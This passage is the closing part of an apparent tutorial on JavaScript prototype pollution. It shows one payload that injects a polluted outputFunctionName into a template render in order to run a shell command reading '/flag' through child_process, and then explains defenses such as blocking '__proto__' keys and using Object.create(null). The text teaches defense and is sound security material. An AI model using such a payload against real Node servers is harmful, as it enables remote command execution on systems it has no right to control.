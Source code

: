 
Combine the above code with the vulnerability of `res.render`(don't introduce here), the payload is `let a = {__proto__: {outputFunctionName:"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');//"}};` when sending a POST request to `/action`.

## Defense methods

### block the `__proto__` key when performing operations on objects

But there is a bypass method like `foo["constructor"]["prototype"]["bar"] = 2;`, so these methods need to be blocked together to ensure safety.

### Use `Object.create(null)` to create a pure object

This can create an empty object without the `__proto__` property, a truly empty object with no methods. Because of this, there won't be any prototype pollution

Avoid directly modifying the prototype of built-in objects, such as `Object.prototype` or `Array.prototype`. Modifying the prototype of built-in objects affects all objects created through these prototypes, leading to unpredictable consequences.

### Use ES6 `class` syntax

Using `class` syntax to define objects helps reduce the chance of directly manipulating the prototype. `class` syntax is more modern and structured, which helps improve code readability and maintainability.

## Conclusion

The concept of prototypes that everyone is familiar with in frontend development has become a common attack technique in the field of security.

> If it runs, it can be cracked!
